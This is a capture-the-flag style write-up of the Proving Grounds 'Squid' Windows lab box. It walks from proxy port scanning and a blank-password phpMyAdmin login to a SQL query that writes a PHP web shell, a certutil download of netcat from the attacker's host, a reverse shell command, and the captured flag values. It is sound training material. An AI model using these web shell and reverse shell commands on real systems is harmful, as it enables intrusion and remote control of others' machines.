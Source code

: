 ```yaml
---
Date: 2024-10-22
Platform: PG-Practice
Category: Windows
Difficulty: Easy
Status: Complete
IP: 192.168.146.189
Writeup: https://medium.com/@ardian.danny/oscp-practice-series-26-proving-grounds-squid-d8043f1f77e2
---
```

# Squid
Everything about this box was a refresher, and there's no doubt I leaned heavily on the walkthrough as I was doing it. Learning about Squid and `spose.py` was interesting, but there's a concern that `spose.py` is pretty niche and I may never have found it (or realised I needed it) without the walkthrough. 

Maybe it's just more familiarity though, and with more practice I'll get better at knowing how to tackle different Windows services. There's no question I learned more about how proxies work from this box, and setting up FoxyProxy to reach the target's open ports was particularly interesting.

Figuring out the MySQL query was challenging too, and I'm not sure I would have figured it out without the walkthrough. Now that I've done it though, I can absolutely see how it works, so there's no question I'd try something similar if I came across the option to enter sql queries into an admin panel again. Understanding how those queries relate to the document root is also awesome to know, and not something I remember being covered in the course content.

Finally, this box helped put the pieces together on some of the netcat commands I've been running but not fully understanding - I needed the walkthrough to spell it out, and now that I've seen it in action I actually get what I've been doing previously when I've copy/pasted stuff in to make it work.

All round, I'm a little frustrated that I've needed so much walkthrough support on what is supposed to be an "easy" box, but the important thing is I keep working away at these boxes each night and learn from each one - it's way better to spend 2 hours following a walkthrough and being able to process the lessons from it, than it is to spend 5 hours bashing my head against the keyboard not understanding and being too stubborn to look at someone else's answers.

# Resolution summary
- Ran Nmap to identify ports `135`, `139`, `445` & `3128`
- Identified port `3128` as running `Squid v4.14`
- Used `spose.py` to identify ports behind `Squid` proxy
- Setup FoxyProxy to use `Squid` proxy and navigated to port `8080`
- Identified `myPHPAdmin` login and password guessed access
- Identified document root, then ran `MySQL` query to create php page which allowed command injection
- Tested command injection, then uploaded netcat to target
- Used command injection to launch netcat on target with reverse shell to Kali machine
- Caught reverse shell as `system`, then navigated to `C:\` and `C:\Users\Administrator\Desktop` to print flags
## Improved skills
- Windows service enumeration
- PHP command injection
- Netcat broadcaster
## Used tools
- nmap
- python
- spose.py
- FoxyProxy
- certutil

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN squid.nmap 192.168.146.189 -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3128/tcp open  http-proxy    Squid http proxy 4.14
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.14
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-10-22T07:50:13
|_  start_date: N/A
```
---
# Enumeration
## Port 135 - MSRPC (Windows RPC)
No enumeration conducted
## Port 139 & 445 - SMB (Microsoft Windows Netbios-SSN)
No enumeration conducted
## Port 3128 - HTTP (Squid http proxy 4.14)
- Navigated to `http://192.168.146.189:3128` and identified `Squid/4.14`
![[Pasted image 20241022183533.png]]
- Downloded `spose.py` Squid Pivoting Open Port Scanner) and ran `python3 spose.py --proxy http://192.168.146.189:3128 --target 192.168.146.189` to identify open ports `3306` and `8080` behind proxy
![[Pasted image 20241022184332.png]]
- Setup FoxyProxy with hostname `192.168.146.189` and port `3128`
![[Pasted image 20241022184554.png]]
- Navigated to `http://192.168.146.189:8080` via proxy `3128` and identified `Wampserver v3.2.3` and aliases
![[Pasted image 20241022184838.png]]
- Followed link `phpinfo()`, navigated to `http://192.168.146.189:8080/?phpinfo=-1` and identified `PHP v7.3.21`
![[Pasted image 20241022185105.png]]
- Identified `Document_Root` in directory `C:/wamp/www`
![[Pasted image 20241022185425.png]]
- Navigated to `http://192.168.146.189:8080/phpmyadmin/` and identified `phpMyAdmin` login page
![[Pasted image 20241022185530.png]]
- Attempted password guessing with `root:` (No Password) and gained admin access
![[Pasted image 20241022185627.png]]
---
# Exploitation
Selected "SQL" tab, navigated to `http://192.168.146.189:8080/phpmyadmin/db_sql.php?db=mysql` , and successfully ran SQL query 
```
`select '<?php system($_GET["cmd"]); ?>;' into outfile 'C:/wamp/www/revshell.php'
```
![[Pasted image 20241022190415.png]]
- Navigated to `http://192.168.146.189:8080/revshell.php?cmd=dir` and confirmed code execution
![[Pasted image 20241022190949.png]]
- Uploaded `nc2.exe` from Kali host to target via `certutil` by navigating to `http://192.168.146.189:8080/revshell.php?cmd=certutil%20-urlcache%20-f%20http://192.168.45.209:80/nc2.exe%20nc2.exe`
![[Pasted image 20241022191602.png]]
- Setup netcat listener on port `1234` and created reverse shell by navigating to `http://192.168.146.189:8080/revshell.php?cmd=nc2.exe%20192.168.45.209%201234%20-e%20cmd.exe` 
![[Pasted image 20241022193428.png]]
- Navigated to `C:\` and ran `type C:\local.txt` to print `e1e484bbc0c7fbccaf088074d318848d`
- Navigated to `C:\Users\Administrator\Desktop` and ran `type C:\Users\Administrator\Desktop\proof.txt` to print `f1d847afd8a8cee6ca94ad3008ce4ec9`
---
# Trophy & Loot
`local.txt` = `e1e484bbc0c7fbccaf088074d318848d`
`proof.txt` = `f1d847afd8a8cee6ca94ad3008ce4ec9`